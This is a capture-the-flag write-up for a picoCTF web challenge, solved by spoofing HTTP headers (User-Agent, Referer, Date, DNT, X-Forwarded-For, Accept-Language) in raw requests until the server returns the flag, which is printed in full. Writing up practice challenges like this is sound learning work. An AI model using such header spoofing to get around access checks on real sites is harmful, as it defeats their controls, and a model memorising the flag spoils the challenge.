 ## Description

Let me in. Let me iiiiiiinnnnnnnnnnnnnnnnnnnn http://mercury.picoctf.net:46199/

## Tools I used
- BurpSuite — used for sending requests (`curl` is good enough but I'm lazy and I like good formatting)
- Chrome developer tools — to get the original request

## Thought Process

Upon logging in, I was greeted with
`Only people who use the official PicoBrowser are allowed on this site!`
which immediately reminded me of the `User-Agent` header for the HTTP request.
\
\
Original request:
```
GET / HTTP/1.1
Host: mercury.picoctf.net:46199
Connection: keep-alive
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.90 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8,zh-CN;q=0.7,zh;q=0.6
```

\
Modify `User-Agent` to be:
<code>User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.90 Safari/537.36 <mark>PicoBrowser</mark></code>

\
Now we sent the request and received a different response saying
`I don't trust users visiting from another site.`
At this point, I was pretty sure this was just a chain of modifying different headers using the hints until we find the flag.

\
We can add a `Referer` header set to this site:
<code><mark>Referer: http://mercury.picoctf.net:46199</mark></code>

\
Response: `Sorry, this site only worked in 2018.`
Header modification — add a random date that is in 2018:
<code><mark>Date: Wed, 21 Oct 2018 07:28:00 GMT</mark></code>

\
Response: `I don't trust users who can be tracked.`
Header modification — add a `Do Not Track` header set to not tracking:
<code><mark>DNT: 1</mark></code>

\
Response: `This website is only for people from Sweden.`
Header modification — Google up an IP from Sweden:
<code><mark>X-Forwarded-For: 23.92.112.0</mark></code>

\
Response: `You're in Sweden but you don't speak Swedish?`
Header modification — Add Swedish ISO code to the `Accept-Language` header:
<code>Accept-Language: en-GB,en-US;q=0.9,en;q=0.8,zh-CN;q=0.7,zh;q=0.6<mark>,sv</mark></code>

\
Response: `What can I say except, you are welcome`
And we have our flag on the screen `picoCTF{http_h34d3rs_v3ry_c0Ol_much_w0w_8d5d8d77}`

\
Final request that got the flag:
```
GET / HTTP/1.1
Host: mercury.picoctf.net:46199
Connection: keep-alive
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.90 Safari/537.36 PicoBrowser
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8,zh-CN;q=0.7,zh;q=0.6,sv
Referer: http://mercury.picoctf.net:46199
Date: Wed, 21 Oct 2018 07:28:00 GMT
DNT: 1
X-Forwarded-For: 23.92.112.0
```


## Flag
`picoCTF{http_h34d3rs_v3ry_c0Ol_much_w0w_8d5d8d77}`